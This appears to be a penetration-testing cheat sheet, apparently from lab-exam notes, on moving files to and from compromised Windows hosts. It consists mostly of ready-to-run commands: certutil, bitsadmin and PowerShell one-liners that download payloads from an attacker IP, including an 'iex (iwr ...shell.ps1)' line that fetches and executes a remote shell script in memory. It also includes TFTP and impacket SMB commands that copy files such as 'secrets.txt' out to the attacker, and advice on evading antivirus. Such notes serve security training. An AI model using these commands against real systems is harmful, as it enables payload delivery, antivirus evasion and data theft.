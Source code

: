 # Transferring Files    
[Living off the Land](https://lolbas-project.github.io/#)      
[Reference - 15 ways to download files](https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-download-a-file/)     
[Windows oneliners to download remote payload and execute arbitrary code](https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/)   
[Windows One liners for file uploading](https://www.asafety.fr/en/vuln-exploit-poc/windows-dos-powershell-upload-de-fichier-en-ligne-de-commande-one-liner/)     

**try certutil / bitsadmin first, then impacket - sometimes Powershell has problems, check size of file to see if transfer was successful** 
Windows XP and earlier: TFTP, Impacket
Windows 7 - 8.1: Certutil, bitsadmin, Impacket, PowerShell    
Windows 10: Certutil, Impacket, Curl, Powershell   
AV evasion - execute payload in memory and don't write to disk.    

IE Local cache for objects downloaded over HTTP (depending on Windows version):    

    C:\Users\<username>\AppData\Local\Microsoft\Windows\Temporary Internet Files\      
    C:\Users\<username>\AppData\Local\Microsoft\Windows\INetCache\IE\<subdir>     
### Certutil    

    certutil.exe -urlcache -split -f "http://$IP/file.bat" file.bat    
### Bitsadmin      

    bitsadmin /create 1 bitsadmin /addfile 1 http://10.10.10.10:80/file.exe file.exe bitsadmin /RESUME 1 bitsadmin /complete 1   
### Old Boxes (Windows XP and before)  
For PWK labs - TFTP usually enabled 
metasploit tfp server module on Kali

    tftp -i 192.168.119.10 PUT secrets.txt   
    
 ## Impacket 
 [Data Exfiltration Techniques](https://www.pentestpartners.com/security-blog/data-exfiltration-techniques/)    
 [Reference - Exfil Files from Windows Manually](https://isroot.nl/2018/07/09/post-exploitation-file-transfers-on-windows-the-manual-way/)  
 
     sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .                         #only on a trusted network (no password)   
     sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py share . -smb2support -username USER -password PASS        
     net use \\IP\share /USER:USER PASS    
     copy \\10.6.85.85\kali\shell.exe C:\PrivEsc\shell.exe               #download from kali   
     copy C:\File \\[attack ip]\shareName\File                           #upload to kali  
    
## Powershell    

    powershell -c wget "http://$IP/file.exe" -outfile "file.exe"   
    powershell "(New-Object System.Net.WebClient).DownloadFile('$IP','$PORT')"   
    powershell Invoke-WebRequest -Uri http://$IP:$PORT/PowerUp.ps1 -OutFile C:\Windows\Temp\out  
    powershell -ep bypass iex (iwr http://$IP/shell.ps1 -useb)    
